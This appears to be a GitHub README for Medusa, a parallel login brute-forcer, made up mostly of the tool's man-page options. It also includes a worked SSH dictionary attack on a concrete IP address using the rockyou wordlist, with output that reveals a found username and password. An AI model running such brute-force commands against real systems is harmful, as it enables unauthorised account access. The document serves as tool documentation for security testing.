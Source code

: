 # Medusa

<img width="653" alt="medusa" src="https://user-images.githubusercontent.com/86956564/131167407-2514fedc-2f28-474e-b8ae-2d30d172dfe4.png">

* NAME
       MEDUSA - Parallel Network Login Auditor

* SYNOPSIS
       
       medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPTIONS]

* DESCRIPTION
       Medusa is intended to be a speedy, massively parallel, modular, login brute-forcer.  The goal is to support as many
       services which allow remote authentication as possible. The author considers following items to  some  of  the  key
       features of this application:

### example attack on webserver 
```
┌──(kali㉿kali)-[~]
└─$ medusa -h 143.110.251.159 -u king -P /usr/share/wordlists/rockyou.txt -M ssh                                                                        255 ⨯
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 123456 (1 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 12345 (2 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: 123456789 (3 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: password (4 of 14344393 complete)
ACCOUNT CHECK: [ssh] Host: 143.110.251.159 (1 of 1, 0 complete) User: king (1 of 1, 0 complete) Password: ieee2021 (107 of 14344393 complete)
ACCOUNT FOUND: [ssh] Host: 143.110.251.159 User: king Password: ieee2021 [SUCCESS]
```

### Explanation for above attack 

*medusa -h 143.110.251.159 -u king -P /usr/share/wordlists/rockyou.txt -M ssh 
* -h => Target hostname or IP address
* -u => Target username
* -P => Target passwords from the file [wordlist]
* -M => Name of the module to execute [eg:- ssh,ftp]

## help manual for medusa
       
       -h [TARGET]
              Target hostname or IP address.

       -H [FILE]
              Reads target specifications from the file specified rather than from the command line.  The file should con‐
              tain a list separated by newlines.

       -u [TARGET]
              Target username.

       -U [FILE]
              Reads target usernames from the file specified rather than from the command line.  The file should contain a
              list separated by newlines.

       -p [TARGET]
              Target password.

       -P [FILE]
              Reads target passwords from the file specified rather than from the command line.  The file should contain a
              list separated by newlines.

       -C [FILE]
              File containing combo entries. Combo files are colon separated and in the following format:  host:user:pass‐
              word.  If  any of the three fields are left empty, the respective information should be provided either as a
              single global value or as a list in a file.

       -O [FILE]
              File  to  append  log information to. Medusa will log all accounts credentials found to be valid or cause an
              unknown error. It will also log the start and stop times of an audit, along with the calling parameters.

       -e [n/s/ns]
              Additional password checks ([n] No Password, [s] Password = Username). If both options are being used,  they
              should be specified together ("-e ns"). If only a single option is being called use either "-e n" or "-e s".

       -M [TEXT]
              Name of the module to execute (without the .mod extension).

       -m [TEXT]
              Parameter  to pass to the module. This can be passed multiple times with a different parameter each time and
              they will all be sent to the module (i.e.  -m Param1 -m Param2, etc.)

       -d     Dump all known modules.

       -n [NUM]
              Use for non-default TCP port number.

       -s     Enable SSL.

       -g [NUM]
              Give up after trying to connect for NUM seconds (default 3).

       -r [NUM]
              Sleep NUM seconds between retry attempts (default 3).

       -R [NUM]
              Attempt NUM retries before giving up. The total number of attempts will be NUM + 1.

       -c [NUM]
              Set the number of usec that are waited during a test of the established network socket. Some services  (e.g.
              FTP,  IMAP,  POP3, and SMTP) may be configured to drop connections after an arbitrary number of failed logon
              attempts.

       -t [NUM]
              Total number of logins to be tested concurrently. It should be noted that roughly t x  T  threads  could  be
              running at any one time. 381 appears to be the limit on my fairly boring Gentoo Linux host.

       -T [NUM]
              Total number of hosts to be tested concurrently.

       -L     Parallelize  logins using one username per thread. The default is to process the entire username before pro‐
              ceeding.

       -f     Stop scanning host after first valid username/password found.

       -F     Stop audit after first valid username/password found on any host.

       -b     Suppress startup banner

       -q     Display module's usage information. This should be used in conjunction with the "-M"  option.  For  example,
              "medusa -M smbnt -q".

       -v [NUM]
              Verbose  level  [0  - 6 (more)]. All messages at or below the specified level will be displayed. The default
              level is 5.

              The following is the breakdown of the verbose levels: 0)   EXIT APPLICATION  1)    MESSAGE  WITHOUT  TAG  2)
              LOG MESSAGE WITHOUT TAG 3)   IMPORTANT MESSAGE 4)   ACCOUNT FOUND 5)   ACCOUNT CHECK 6)   GENERAL MESSAGE

       -w [NUM]
              Error  debug  level [0 - 10 (more)]. All messages at or below the specified level will be displayed. The de‐
              fault level is 5.

              The following is the breakdown of the error levels: 0)   FATAL  1)    ALERT  2)    CRITICAL  3)    ERROR  4)
              WARNING 5)   NOTICE 6)   INFO 7)   DEBUG 8)   DEBUG - AUDIT 9)   DEBUG - SERVER 10)  DEBUG - MODULE

       -V     Display version

       -Z [TEXT]
              Allows basic resuming of a previous scan. The supplied parameter describes which hosts were completed, which
              were partially tested and which had not been started.  When Medusa receives a SIGINT, it will calculate  and
              display  a "resume map". This map can then be supplied to the next run. For example, "medusa [OPTIONS PREVI‐
              OUSLY USED] -Z h6u1u2h8."

